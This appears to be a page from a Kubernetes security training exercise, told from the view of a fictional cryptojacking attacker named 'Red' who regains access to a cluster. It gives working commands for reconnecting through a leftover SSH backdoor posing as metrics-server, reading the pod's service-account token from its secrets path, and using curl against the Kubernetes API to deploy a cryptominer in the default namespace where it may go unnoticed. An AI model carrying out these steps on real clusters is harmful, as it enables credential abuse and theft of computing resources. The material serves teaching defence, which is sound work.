 # Persistence: Scenario 2 Attack

## Backstory

### Name: __Red__

* Opportunist
* Easy money via crypto-mining
* Uses automated scans of web IP space looking for known exploits and vulnerabilities

### Motivations

* __Red__ notices that public access to the cluster is gone and the cryptominers have stopped reporting in
* __Red__ is excited to discover that the SSH server they left behind is still active

## Re-establishing a Foothold

__Red__ reconnects to the cluster using the SSH service disguised as a *metrics-server* on the cluster. While having access to an individual container may not seem like much of a risk at first glance, this container has two characteristics that make it very dangerous:
  * There is a service account associated with the container which has been granted access to all kubernetes APIs
  * The container is running with a privileged security context which grants it direct access to the host OS

## Deploying Miners

Connect to the cluster via SSH:
```console
echo "SSH password is: Sup3r_S3cr3t_P@ssw0rd"
ssh root@<service IP from attack 1> -p 8080
```

To restart our crypto mining, we will need the token for the pod service account:
```console
export TOKEN=$(cat /var/run/secrets/kubernetes.io/serviceaccount/token)
```

This time, we will create our miner in the `default` namespace. Since it is common for lots of orphaned deployments to land here, maybe ours will go unnoticed:
```console
export NAMESPACE=default
```

And we will be connecting to the kubernetes API from inside the cluster this time:
```console
export API_SERVER="https://kubernetes.default.svc"
```

Lastly, we will need curl for this and our SSH image didn't come with it preinstalled:
```console
apk update && apk add curl
```

Now the fun part, let's create our miner:
```console
curl -k -X POST "$API_SERVER/apis/apps/v1/namespaces/$NAMESPACE/deployments" -H "Authorization: Bearer $TOKEN" -H "Content-Type: application/json" --data-binary '{"apiVersion":"apps/v1","kind":"Deployment","metadata":{"labels":{"run":"bitcoinero"},"name":"bitcoinero","namespace":"'$NAMESPACE'"},"spec":{"replicas":1,"revisionHistoryLimit":2,"selector":{"matchLabels":{"run":"bitcoinero"}},"strategy":{"rollingUpdate":{"maxSurge":"25%","maxUnavailable":"25%"},"type":"RollingUpdate"},"template":{"metadata":{"labels":{"run":"bitcoinero"}},"spec":{"containers":[{"image":"securekubernetes/bitcoinero:latest","name":"bitcoinero","command":["./moneymoneymoney"],"args":["-c","1","-l","10"],"resources":{"requests":{"cpu":"100m","memory":"128Mi"},"limits":{"cpu":"200m","memory":"128Mi"}}}]}}}}'
```

Verify that the pod is running:
```console
curl -k -X GET "$API_SERVER/api/v1/namespaces/$NAMESPACE/pods?labelSelector=run%3dbitcoinero" -H "Authorization: Bearer $TOKEN" -H "Accept: application/json" 2>/dev/null | grep phase
```

Time for some celebratory pizza!